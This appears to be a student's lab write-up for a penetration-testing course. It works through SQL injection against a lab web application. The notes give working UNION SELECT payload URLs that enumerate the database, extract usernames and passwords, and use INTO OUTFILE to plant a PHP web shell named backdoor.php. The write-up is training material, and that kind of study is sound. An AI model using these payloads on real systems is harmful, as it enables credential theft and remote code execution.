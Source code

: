 # 9.9.9 Extracting Data
## Practice - Extracting Data from the Database

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Enumerate the structure of the database using SQL injection.
We can enumerate the number of columns through trial and error via `union select all 1,2,...` 
![[sqli_column_error.png]]
![[slqi_columns.png]]
Once we understand the number of columns we are able to work with we can begin enumerating different aspects of the databse. For example:
version information
`http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version`
current user
`http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()`
or a list of tables
`http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables`



2.  Understand how and why you can pull data from your injected commands and have it displayed on the screen.
The reason our malicious queries are being displayed on the screen has to do with the alignment of columns. By utilizing the correct amount of columns we are able to basically stick the data requested via our malicious query on to the currently outputted information, ignorning any errors as the columns are in alignment.

3.  Extract all users and associated passwords from the database.
The following url will extract usernames and passwords from the "users" table:
`http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users`
![[sqli_passwords.png]]


# 9.9.11 From SQL Injection to Code Execution
## Practice - From SQL Injection to Code Execution

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the SQL injection along with the MariaDB INTO OUTFILE function to obtain code execution.
To do this we simply need to append the end of our sql injection url, adding the creation of a malicious php file.
`http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
This creates the new endpoint "backdoor.php" which allows us to specify a command to run via the arguement "cmd=". Here, we are running the ipconfig command.
![[sql_cmd_injection.png]]
